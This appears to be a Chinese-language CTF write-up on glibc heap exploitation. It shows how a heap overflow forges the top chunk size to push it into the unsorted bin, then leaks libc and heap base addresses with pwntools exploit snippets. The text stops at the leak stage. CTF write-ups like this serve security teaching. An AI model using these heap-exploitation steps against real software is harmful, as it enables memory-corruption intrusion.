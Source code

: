 ​    其他函数都没啥问题，而且打印堆块内容的函数，泄露libc困难。

### 调试过程

​     要完成利用的第一步通常就是泄露libc基址，这里可以通过堆溢出修改top chunk的size，让其进入unsorted bin中，然后切割泄露libc基址。但是需要注意的是：

1. 伪造的size必须要对齐到内存页

2. Size要大于MINSIZE(0x10)

3. Size要小于之后申请的chunk size + MINSIZE(0x10)

4. Size的prev_inuse位必须为1

 ```python
 add(0x10, 'verf1sh', 0x10, 1)
 edit(0x40, 'a'*0x18+p64(0x21)+p32(0x10)+p32(0x1f)+p64(0)*2+p64(0xfa1), 0x10, 1) # 通过溢出修改top chunk的size为0xfa1
 add(0x1000, 'verf1sh', 0x10, 1) # 申请一个大于此时topchunk的size，使top chunk掉入unsortbin
 ```

​    执行完add(0x10, 'verf1sh', 0x10, 1)，已经有三个堆块了。

 ![image-20211226165643619](/assets/wgpsec/images/heap/image-20211226165643619.png)

​    这时，通过编辑堆块功能处的堆溢出漏洞将top chunk的size改小。

 ![image-20211226165650056](/assets/wgpsec/images/heap/image-20211226165650056.png)

 ![image-20211226165655434](/assets/wgpsec/images/heap/image-20211226165655434.png)

​    这时候再通过add(0x1000, 'verf1sh', 0x10, 1)申请一个大小大于top chunk的堆块，堆管理器就会使用brk拓展堆，并将原来的top chunk释放到unsorted bin中。这样我们就构造处了一个处于unsorted bin的堆块。

 ![image-20211226165700782](/assets/wgpsec/images/heap/image-20211226165700782.png)

​    再add一次大chunk，就会从unsorted bin里切割，可以show出libc的地址。同时，如果这个chunk是large chunk，在fd_nextsize和bd_nextsize中还会存储堆的地址，由此就可以完成信息泄露。

 ```python
 # leak libc_base
 add(0x400, 'a'*8, 0x10, 1)
 show()
 p.recvuntil('a'*8)
 libc_base = u64(p.recv(6).ljust(8, '\x00')) - 1640 - 0x10 - libc.sym['__malloc_hook']
 success('libc_base -> {}'.format(hex(libc_base)))
 _IO_list_all = libc_base + libc.sym['_IO_list_all']
 system = libc_base + libc.sym['system']
 
 # leak heap_base
 edit(0x10, 'a'*0x10, 0x10, 1)
 show()
 p.recvuntil('a'*0x10)
 heap_base = u64(p.recv(6).ljust(8, '\x00')) & 0xfffffffff000
 success('heap_base -> {}'.format(hex(heap_base)))
 ```
